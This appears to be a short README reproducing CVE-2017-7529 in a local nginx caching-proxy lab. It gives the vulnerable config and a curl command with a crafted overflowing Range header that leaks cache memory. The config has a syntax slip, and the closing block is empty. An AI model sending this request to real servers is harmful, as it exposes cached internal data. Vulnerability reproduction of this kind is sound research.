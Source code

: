 # CVE-2017-7529

### nginx config

```
proxy_cache_path /tmp/nginx/cache keys_zone=cache_zone:10m max_size=10G;

server{
    listen      80;
    server_name localhost;

    location /proxy/{
        proxy_pass http://localhost:8080/; 
        add_header X-Proxy-Cache $upstream_cache_status;
        proxy_set_header Host $host;
        proxy_cache cache_zone;
        proxy_cache_valid 200 302 24h;
        proxy_cache_valid any 30m;

        expires 90d;
    }
}

server {
    listen      8080:
    server_name localhost;

    location / {
        root html;
        index index.html index.htm;
    }
}


```

Trigger bug with
```curl -iv http://localhost/proxy/ -r -1000, -9223372036854774808```
- $First_Number: underflow size
- $Second_Number: 0x8000000000000000 - $First_Number

```
# Leak backend api host

```
